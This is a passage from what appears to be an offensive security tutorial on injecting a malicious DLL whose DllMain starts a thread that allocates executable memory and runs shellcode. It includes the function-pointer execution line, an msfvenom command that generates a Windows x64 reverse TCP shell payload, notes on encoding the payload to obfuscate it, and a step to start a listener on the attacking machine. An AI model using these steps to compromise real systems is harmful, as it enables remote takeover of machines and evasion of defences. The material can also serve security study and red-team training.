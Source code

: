 - - -

#### Step 3: Execute the Shellcode

((void(\*)())exec\_mem)();

*   The allocated memory is cast to a function pointer of type `void(*)()`.
*   The shellcode is then executed by calling the function pointer.

- - -

#### Step 4: Free Allocated Memory

VirtualFree(exec\_mem, 0, MEM\_RELEASE);

*   Releases the memory region allocated earlier. This step is optional since the process is likely to exit after execution.

- - -

### Code Workflow Summary

1.  When the DLL is injected and loaded into a process, `DllMain` runs.
2.  A new thread is created in `DLL_PROCESS_ATTACH` to execute `ShellcodeExec`.
3.  `ShellcodeExec`:

*   Allocates memory for the shellcode.
*   Copies the shellcode into the allocated memory.
*   Executes the shellcode.
*   Frees the allocated memory after execution.

**Generate a shell code using MsfVenom**

msfvenom -p windows/x64/shell\_reverse\_tcp LHOST=<ip> LPORT=<port> -f c -b "\\x00" -a x64

*   `-a x64`: For 64-bit architecture.
*   `-b "\x00"`: To avoid certain bad characters in the shellcode.
*   `-e x86/shikata_ga_nai`: To use a polymorphic encoder to make the shellcode more obfuscated.

**Start Listener**:

*   On your attacking machine, use a tool like `msfconsole` to start a listener to receive the reverse shell connection.

![](https://cdn-images-1.medium.com/max/1200/1*y7Z1_1vPGiNUy5blWCujHA.png)

![](https://cdn-images-1.medium.com/max/800/1*m1F1a7blt62KH31ltyUnmw.png)

### Use in DLL Injection

*   **Purpose**: Executes shellcode in the target process when the DLL is loaded.
*   **Mechanism**: Combines thread creation, memory allocation, and shellcode execution.
*   **Why** `**DllMain**`**?**: The Windows loader automatically calls `DllMain` when a DLL is injected, making it the perfect entry point for executing custom logic.

### Full Code Repository
